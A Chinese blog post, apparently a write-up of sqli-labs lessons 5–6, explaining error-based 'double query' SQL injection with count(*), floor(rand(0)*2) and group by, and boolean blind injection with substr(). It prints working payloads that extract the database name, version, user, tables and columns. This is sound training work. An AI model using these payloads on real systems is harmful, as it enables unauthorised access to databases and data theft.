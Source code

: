 ```yaml
---
layout: post
title: sqli-labs Lesson-5-6 双重注入
subtitle: 
date: 2020-01-04
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface

这篇文章是 sqli-labs 的第五和第六关题解，都涉及到了基于报错的双重注入



## 开始做题



先按部就班吧，我们先找注入点，输入 `'` 后报错，根据报错信息确定了可能存在字符型注入

![error](https://i.loli.net/2020/01/06/7aAQW2wF85KdSXr.png)



然后就尝试闭合咯，屏幕输出 “ You are in ”

![you_are_in](https://i.loli.net/2020/01/06/C5NHWZ1mXP4ShEG.png)



接下去用 `order by` 爆破字段的个数，4 的时候报错，所以只有三个字段

![column_num](https://i.loli.net/2020/01/06/vexXI54PQiGTRmW.png)



再来看看会不会有字段显示出来，用 union 查询



不显示东西。。如果有记录的话就会显示 “you are in” ，没记录的话直接就报错了，这里我没办法了，上网看了别人的解决方案，学习到了一波新的知识然后自己用不同方法做了一遍



这种基于报错的但是页面又不显示出表的字段的 sql 注入都可以通过 sql 聚合函数和分组来回显报错信息，简单来说就是用 `count(*)` 、`rand()` 以及 `group by` 三个函数就可以将我们想要获取的信息通过报错的方式显示出来，具体原理以后再~~补~~（咕），不过这种方法只能用 limit 来一条一条输出，不能用 group_concat 来拼接



看下下面这个句子，这就是个标准的报错公式，rand() 函数生成一个 0-1 的随机数，floor() 的功能是向下取整，因此 floor(rand(0)*2)  就是 0 或者 1 ，看报错信息，这里说 entry 重复了

```sql
mysql> select count(*),floor(rand(0)*2) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '1' for key 'group_key' 
```



我们用 concat 连接一下试试会发生什么

```sql
mysql> select count(*),concat('------',(floor(rand(0)*2))) x from information_schema.tables group by x; 
ERROR 1062 (23000): Duplicate entry '------1' for key 'group_key' 
```



可以看到，报错信息被改变了，也就是说我们的自定义字符串和原本报错的 entry 给拼接在了一起，我们就是利用这个特点来进行注入的，接下来就查询一下这张表所在的数据库

```sql
' union select 1, count(*),concat(database(),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![encode-error](https://i.loli.net/2020/01/06/ufxTUHknicoAYV8.png)



报错了，肯定是编码的问题。在网上查到解决办法，用 `binary()` 函数转化一下即可，然后就得到了数据库的名字

```sql
' union select 1, count(*),concat(binary(database()),'-',floor(rand(0)*2))a from information_schema.tables group by a--+
```

![database](https://i.loli.net/2020/01/06/hHFa2yRYSW3bGdz.png)



> 这里分享一下网上一位老哥的做法，有点啰嗦，但是很巧妙，用 substr() , ascii() 等函数将数据库名字分来，一位意味猜，这算是基于布尔的盲注了



根据报错与否判断出数据库的长度

```sql
' or length(database())=8 --+
```

再根据 ASCII 字符的大小比较来判断数据库每一位是什么，就这样一位一位硬核爆出来，感觉思路很好，万一有些函数被禁了就可以尝试一下这种方法

```sql
' or substr(database(),2,1)='e' --+
```



再查询相关信息，平台，数据库版本等

```sql
' union select 1, count(*),concat_ws('-', binary(@@version_compile_os), user(), version(),floor(RAND(0)*2))a from information_schema.tables group by a--+
```

![all-info](https://i.loli.net/2020/01/06/lpLwR2C8r6qvGcg.png)



接下去就爆出表的名字，但是报错了，说子查询的结果多于 1 列

```sql
' union select 1, count(*),concat_ws('-', (select table_name from information_schema.tables where table_schema='security'),floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![table](https://i.loli.net/2020/01/06/d2HEZam7RnJs1Ml.png)



想起来，这种基于聚合函数的报错只能用 limit 一条一条看，那就改一下，一个一个查，查到三张表，`uagents`、`users` 、`emails` 和 `referers` 

![tables](https://i.loli.net/2020/01/06/VZarthxO6PH1Ggi.png)



表名应该就是 users 了，就算不是也可以一个一个查。知道数据库和表名，字段的个数也知道了，接下去就判断字段的名称了，先用 count 查到有 3 个字段（废话，前面就已经知道了，只是提供一种方法）

```sql
' union select 1, count(*),concat_ws('-', (select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1, 1), floor(RAND(0)*2))a from information_schema.tables where table_schema='security' group by a--+
```

![columns](https://i.loli.net/2020/01/06/tVY7xLiRfT2lKEq.png)



然后就一个一个爆字段，得到所有的字段名和在表中的顺序，到这里也就将所有的信息都爆出来了，结束注入，第六题是一样的，就是将单引号变成双引号而已



## reference



https://www.jianshu.com/p/8c2343705100

https://blog.51cto.com/obnus/532116

https://blog.csdn.net/baidu_37576427/article/details/76146974